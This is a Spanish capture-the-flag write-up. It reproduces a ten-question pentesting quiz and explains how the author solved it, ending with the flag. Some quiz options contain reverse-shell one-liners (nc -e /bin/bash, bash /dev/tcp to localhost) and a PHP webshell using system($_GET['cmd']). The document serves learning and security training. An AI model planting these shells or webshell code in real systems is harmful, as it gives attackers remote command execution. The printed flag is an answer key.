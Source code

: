 Consistía en resolver este test:
1. ¿Cuál de estas shells reversas funciona en Kali si estamos en escucha por el puerto tcp 5555  
	a. nc localhost 5555  
	b. nc -u 127.0.0.1 5555 -e /bin/bash
	c. bash -c "bash -i >& /dev/tcp/127.0.0.1/5555 0>&1"  
	d. Todas las anteriores

2.  ¿Qué código PHP sirve para ejecutar comandos en una webshell con el parámetro cmd?  
	a.` <?php system($_GET['cmd']); ?>`
	b. `<?php system($cmd); ?>`
	c. `<?php $_GET['cmd'](); ?>`  
	d. Ninguna de las anteriores

3. ¿Qué comando te monta un servidor web local en el puerto 6666 de la carpeta en la que estás?  
	a. python3 -m SimpleHTTPServer 6666  
	b. python3 -m http.server 6666  
	c. nc -nvlp 6666 .  
	d. Ninguno

4.  ¿Qué opción de nmap permite escanear puertos SCTP?  
	a. -sY  
	b. -sT  
	c. -sU  
	d. Los puertos SCTP no existen

5.  ¿Qué parametro se utiliza para usar una clave pública (id_rsa) en el login de un ssh?  
	a. ssh -i id_rsa user@ip 
	b. ssh -p id_rsa user@ip  
	c. ssh -k id_rsa user@ip  
	d. ssh -oHostKeyAlgorithms=id_rsa user@ip

6.  ¿Qué comando codificado 'ls' es válido para ejecutar en un powershell (powershell -enc XXXXXX)  
	a. ls
	b. bABzAAoA  
	c. bHM= 	
	d. En powershell no funciona ls

7. ¿Qué comando de los siguientes se usa para realizar una transferencia de zona de un DNS?  
	a. dig zonetransfer.me TXT  
	b. dig @nsztm2.digi.ninja zonetransfer.me trzn  
	c. dig zonetransfer.me NS  
	d. dig @nsztm2.digi.ninja zonetransfer.me axfr

8. bf 51 75 e9 20 70 72 65 67 75 6e 74 61 20 65 73 20 65 73 74 61 3f  
	a. 1  
	b. 8  
	c. 31  
	d. 38

9. Juegan blancas y hacen mate en X movimientos: 
	a. 13
	b. 15
	c. 21
	d. 23 

![](../Imágenes/Pasted%20image%2020241106232816.png)


10.  ¿Cuál de estas flags está puesta para engañar a propósito  
	a. cibergal{cadababada}  
	b. cibergal{aaaaaaaaab}  
	c. cibergal{abcdabcdab}  
	d. cibergal{abacadabaa}

La mayoría de preguntas son de conocimientos pero algunas peculiares:
6 https://stackoverflow.com/questions/53269099/powershell-base64-encoding-required

```bash
iconv -f ASCII -t UTF-16LE ls |base64 -w 0
```

Escribiendo ls en un fichero y usando el comando:

![](../Imágenes/Pasted%20image%2020241106233039.png)

8 Está en hexadecimal, 
```bash
echo "bf 51 75 e9 20 70 72 65 67 75 6e 74 61 20 65 73 20 65 73 74 61 3f" | tr -d ' '  | base16 -d  
�Qu� pregunta es esta?  
```
La respuesta es la d porque 8 en hexadecimal es: 

```bash
echo -n "8" | base16                 
38
```

9 Hay webs que te encuentran los movimientos que deben hacer

10 Inspeccionando el html se ve una pista fake:

![](../Imágenes/Pasted%20image%2020241106233704.png)

En resumen: 

cibergal{cabaabddcd}